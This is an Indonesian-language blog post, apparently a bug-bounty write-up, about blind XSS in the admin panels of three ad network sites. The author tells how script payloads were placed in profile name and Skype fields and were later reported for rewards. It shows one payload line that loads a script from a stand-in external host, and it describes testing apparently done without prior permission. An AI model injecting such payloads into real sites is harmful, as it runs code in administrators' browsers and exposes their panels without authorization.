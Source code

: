 ```yaml
---
layout: post
title: Blind XSS - Mengintip Admin Panel situs Ad Networks
date: 2018-08-22 04:10:00 PM
permalink: project/2018-08-22-blind-xss-mengintip-admin-panel-situs-ad-networks/
author: xhellc0de
categories: pentesting
tags: vulnerability xss blind-xss bug-bounty
---
```

![Image of Ad Networks](https://noobsec.org/images/ad_network.png)

Karena kehidupan yang semakin sulit, banyaknya biaya hidup yang harus dipenuhi maka saya pun mencoba untuk mencari pendapatan tambahan dari Internet *(curhat)*. Salah satu yang saya lakukan adalah mencari uang dari situs periklanan atau biasa dikenal dengan Ad Networks. Ada banyak sekali situs Ad Networks di jagat internet ini, mulai dari yang paling terkenal milik Google yaitu Google Adsense, dan situs-situs Ad Networks lainnya.

Beberapa waktu lalu, saldo pada situ Ad Networks saya sudah mencapai batas yang dapat di-withdraw. Dan saya pun segera melakukan penarikan pada situs tersebut. Ketika mau melakukan withdraw, saya iseng mengganti nama pada profile dengan menambahkan payload XSS didalamnya. Berharap payload tersebut akan tereksekusi di panel admin dan saya bisa melihat-lihat dalemannya hehe.

Selang beberapa waktu, benar saja payload saya tereksekusi di admin panel Ad Networks tersebut. Saya berhasil melakukan **Blind XSS** pada situs tersebut.

![Image of Ad Networks Panel](https://noobsec.org/images/b1_panel.png)

**Blind XSS** merupakan salah satu jenis XSS yang cukup unik. Kita tidak bisa melihat kapan dan dimana payload akan tereksekusi, bahkan sering kali tidak tereksekusi. Maka dari itu disebut Blind, alias buta. Payload yang kita buat umumnya tereksekusi di aplikasi lain yang saling terhubung pada satu database.

Untuk kasus yang saya temukan ini, saya memasukan payload XSS pada Member Area Ad Networks, lalu saya melakukan **Wihtdrawal Request** yang dimana pastinya diperlukan pengecekan secara manual oleh Admin sebelum melakukan proses **Wihtdrawal** yang saya minta. Maka Admin membuka halaman yang berisi **Withdrawal Request** pada situsnya, dan pada halaman tersebut ada **Field Full Name** yang sebelumnya saya isi dengan Payload XSS pada Member Area saya.

Berikut ini contoh source code dari Field Full Name setelah saya isi payload XSS:

```
<td style="color:black;cursor:pointer;" userid="x" class="userid userid_x">John Smith"&gt;<script src="https://malicious.script/"></script></td>
```

Karena saya merupakan orang yang jujur dan baik hati. Maka saya segera melapor pada Admin situs tersebut terkait bug yang saya temukan. Tidak lupa pula menanyakan apakah ada reward yang saya dapatkan haha..

![Image of Ad Networks Email](https://noobsec.org/images/b1_email.png)

Tidak lama admin dari situs tersebut membalas email dan memberikan saya reward terkahit bug yang saya temukan. Lumayan, Withdraw nya jadi dobel hehe..

**Dari bug ini saya diberi reward sebesar $250. (Alhamdulillah)**

Tidak berhenti sampai disitu, saya pun mencoba hal yang sama pada situs Ad Networks yang lain. Karena situs mereka adalah situs penghasil uang, sudah pasti mereka punya uang dan mungkin mau memberi reward seperti pada situ yang awal tadi.

![Image of Kamen](https://noobsec.org/images/kamen.gif)

Pada situs berikutnya, payload XSS saya masukan pula pada field Full Name dan tereksekusi di Halaman **Channel List** pada panel admin. Halaman itu berisi daftar dari publisher yang ada pada situs tersebut. Walaupun pada awalnya mereka menyangkal dan tidak percaya bahwa ada bug di situs mereka, akhirnya mereka pun percaya setelah saya gunakan **alert** untuk memunculkan popup pada admin panel mereka XD

![Image of Ad Networks Panel](https://noobsec.org/images/b2_panel.png)

**Dari bug ini saya diberi reward sebesar $50. (Alhamdulillah)**

Yang terakhir saya menemukan bug yang sama pada situs Ad Networks asal Rusia. Kali ini payload tereksekusi di halaman Affiliates pada **Field User Skype**. Karena pada member Panel nya terdapat field Skype dan hanya field itu yang bisa diisi dengan payload XSS, field lainnya diproteksi sehingga tidak bisa memasukan HTML Tag.

![Image of Ad Networks Panel](https://noobsec.org/images/b3_panel.png)

Tidak seperti situs sebelumnya, admin situs ini sangat ramah dan sangat cepat tanggap. Bahkan ini merupakan **Bounty Hunting** tercepat yang saya alami. Proses dari mengirim report sampai diberi reward memakan waktu kurang dari 2 jam!

**15 Aug 2018 22:23 = Reported**
![Image of Ad Networks Email](https://noobsec.org/images/b3_email1.png)

**15 Aug 2018 23:06 = Rewarded**
![Image of Ad Networks Email](https://noobsec.org/images/b3_email2.png)

**Dari bug ini saya diberi reward sebesar $100. (Alhamdulillah)**

Begitulah cerita singkat saya *mengintip* admin panel ada situ Ad Networks. Semoga bisa memberi inspirasi bagi kalian semua para tukang ngintip wkwk. Mengintiplah untuk sesuatu yang baik, karena segala sesuatu yang baik akan membawa hasil yang baik pula.

Referensi:

https://www.acunetix.com/websitesecurity/detecting-blind-xss-vulnerabilities/
